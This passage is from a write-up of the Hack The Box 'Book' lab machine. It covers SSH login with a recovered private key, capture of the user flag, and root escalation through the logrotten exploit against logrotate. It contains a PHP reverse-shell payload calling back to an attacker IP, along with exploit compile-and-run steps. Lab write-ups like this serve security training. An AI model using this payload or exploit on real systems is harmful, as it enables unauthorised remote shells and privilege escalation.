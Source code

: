 ```
-----END RSA PRIVATE KEY-----
```

We then `chmod 700` the file and ssh into the box as `reader` and read the use flag.
```bash
kali@kali:~/boxes/book$ ssh -i id_rsa reader@book.htb

reader@book:~$ ls
backups  lse.sh  user.txt
reader@book:~$ cat user.txt
51c1d4b51{...}}
```

# ROOT

## enumeration
After running pspy we realise that logrotate is running as root.

After some reasearching we find a github that has an explpoit [exploit](https://github.com/whotwagner/logrotten).

## exploitation

Exploitation steps:


```bash
reader@book:~$ cd /tmp
reader@book:/tmp$ mkdir shell
reader@book:/tmp$ cd  shell
reader@book:/tmp/shell$ nano logrotten.c
reader@book:/tmp/shell$ gcc -o logrotten logrotten.c

reader@book:/tmp/shell$ nano payload
reader@book:/tmp/shell$ ./logrotten -p ./payload /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
```
payload file:
```php
php -r '$sock=fsockopen("10.10.xx.xx",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
we have to echo data to the logs file to make it rotate otherwise it wont do anything
```bash
reader@book:~/backups$ cat access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
reader@book:~/backups$ echo "hi" > access.log
```
